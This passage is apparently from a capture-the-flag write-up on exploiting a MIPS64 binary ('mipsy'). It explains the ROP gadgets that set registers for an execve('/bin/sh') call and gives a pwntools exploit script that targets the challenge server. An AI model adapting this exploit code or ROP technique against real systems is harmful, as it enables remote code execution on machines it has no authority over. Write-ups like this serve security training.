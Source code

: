 Then we can put the right value in `$v1` by looking at the SET_V1 gadget which loads the doubleword in `0x80($sp)` in `$v1`.
So we have to add to our payload:
```py
pld  = make_pld(pld, p64(0x0), BASE_RSP+(0x80)) # $v1
```
And we have to set the right value for the next gadget to execute. The gadget loads the doubleword in `0xe0($sp)` in `$t9` and then jmp on, so we can add our SET_V0 gadget to be then executed:
```py
pld  = make_pld(pld, p64(SET_V0), BASE_RSP+(0xe0)) # $t9
```
We repeat the same operation for the SET_V0 gadget by setting a pointer to `'/bin/sh'` in `0x210($sp)` and the address of the final execve call in `0x228($sp)`:
```py
pld  = make_pld(pld, p64(BINSH), BASE_RSP+(0x210)) # $v0
pld  = make_pld(pld, p64(EXECVE), BASE_RSP+(0x228)) # $t9
```

We finished the ROPchain, now we just have to send it to the server and to enjoy the shell !

The final script looks like such:
```py
#!/usr/bin/python3
from pwn import ELF, context, remote, p64 

BINSH = 0x120025A20

e = ELF('mipsy')

context.bits = 64 # mips64
context.arch = "mips"
context.endian = "big" # Not a mipsel binary

def make_pld(s, val, pos):
    if len(s) == pos:
        s += val
        return s
    elif len(s) > pos:
        s = s[:pos-1] + val + s[pos-1+len(val):]
        return s 
    elif len(s) < pos:
        k = "\x00"*(pos-len(s))
        return s + b"\x00"*(pos-len(s)) + val 

SET_V0 = 0x12001B4D8 # : ld $v0, 0x210($sp) ; ld $t9, 0x228($sp) ; jalr $t9 ; move $a0, $s6

SET_V1 = 0x000000012001270c # : ld $v1, 0x80($sp) ; sd $v0, 0xf0($sp) ; dsubu $s5, $v0, $v1 ; dsll $v0, $s5, 6 ; ld $a0, 0xb8($sp) ; ld $t9, 0xe0($sp) ; move $a1, $v0 ; sd $v1, 0xf8($sp) ; jalr $t9 ; sd $v0, 0x100($sp)

EXECVE = 0x120004134

GP = 0x120048020
BASE_RSP = 0x90

def start():
    return remote("challenges2.france-cybersecurity-challenge.fr", 4005)
    # return remote("localhost", 4000)

io = start()
io.sendlineafter("] ", b"3")

pld  = make_pld(b"", p64(GP), BASE_RSP-0x18) # $gp
pld  = make_pld(pld, p64(SET_V1), BASE_RSP-0x8) # $ra
pld  = make_pld(pld, p64(0x0), BASE_RSP+(0x80)) # $v1
pld  = make_pld(pld, p64(SET_V0), BASE_RSP+(0xe0)) # $t9
```
